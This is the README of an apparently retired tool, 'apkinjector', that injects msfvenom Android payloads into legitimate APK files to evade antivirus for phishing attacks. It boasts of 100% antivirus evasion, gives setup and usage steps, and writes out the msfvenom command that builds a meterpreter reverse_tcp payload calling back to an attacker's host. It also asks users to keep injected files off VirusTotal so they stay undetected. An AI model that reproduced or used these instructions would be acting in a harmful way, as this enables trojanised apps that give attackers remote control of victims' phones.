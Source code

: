 # apkinjector

### This script is no longer supported. Please use APKWash. ###
<br><br>
Android APK Antivirus evasion for msfvenom generated payloads to inject into another APK file for phishing attacks.
<br><br>
<b> -- Please do not upload "injected" files to VirusTotal.com -- </b><br>
<br>
<br>
<b>Success Rate:</b><br>
-100% AV Evasion to date (0/35 on nodistribute, confirmed on AVG and Kaspersky mobile)<br>
-~70% automatic injection<br>
-May require user input, or manually adding the invoke command. The output will explain what is needed.<br>
-If APKTool fails to decompile, or compile, then the injection will fail. On major apps like Facebook, Starbucks, etc you may find this to happen.<br>
<br>
<br>
<b>Setup:</b><br>
chmod +x apkinjector<br>
mv apkinjector /usr/local/bin/.<br>
<br>
<b>On first run:</b><br>
-Downloads and places apktool.jar in the user's /usr/local/bin directory<br>
-Generates debug keystore for signing. Places it in ~/.android/<br>
<b>NOTE:</b> If wanting to customize each signature, then remove the keystore before running the script.<br>
<br>
<b>Usage:</b><br>
apkinjector \<payload>.apk \<original>.apk<br>
<br>
<b>Input:</b><br>
This script takes a msfgenerated payload as input along with an .apk you want to inject into.<br>
To generate the payload: msfvenom -p android/meterpreter/reverse_tcp LHOST=\<IP> LPORT=\<PORT> -o \<payload>.apk<br>
<br>
<b>Output:</b><br>
injected_\<original>.apk<br>
<br>
<b>Debugging</b><br>
Comment out the removal of the /tmp/payload and /tmp/original directories to see the file structure that was compiled.<br>

